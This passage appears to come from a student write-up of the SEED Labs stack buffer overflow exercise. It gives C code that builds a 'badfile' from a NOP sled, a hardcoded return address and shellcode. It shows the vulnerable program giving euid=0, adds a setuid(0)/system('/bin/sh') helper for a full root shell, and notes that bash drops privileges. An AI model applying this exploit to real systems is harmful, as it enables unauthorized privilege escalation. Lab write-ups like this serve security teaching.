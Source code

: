 ```C
"\x99"
"\xb0\x0b"
"\xcd\x80"
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;
    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);
    /* You need to fill the buffer with appropriate contents here */
    long addr = 0xBFFFF5FF;
    long *ptr = (long *) (buffer + 16);
    *ptr = addr;
    memcpy(buffer + 480, shellcode, sizeof(shellcode)-1);
    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```
Then we test again:
```
$ ./stack
# id
uid=1000(seed) gid=1000(seed) euid=0(root)
```
To gain a root shell, we write this code:
```C
void main()
{
    setuid(0);
    system("/bin/sh");
}
```
Save it as `root.c` and test again:
```
$ ./stack
# id
uid=1000(seed) gid=1000(seed) euid=0(root)
# gcc -o root root.c
# ./root
# id
uid=0(root) gid=1000(seed)
```


### Task 2: Protection in `/bin/bash`

To study the protection scheme in `/bin/bash`, we link `/bin/sh` back to `/bin/bash` and run our vulnerable program. It performs as follows:
```
$ ./stack
sh-3.2$ id
uid=1000(seed) gid=1000(seed)
```
We see that `eid` is dropped by `bash`. We can no longer get root shell.
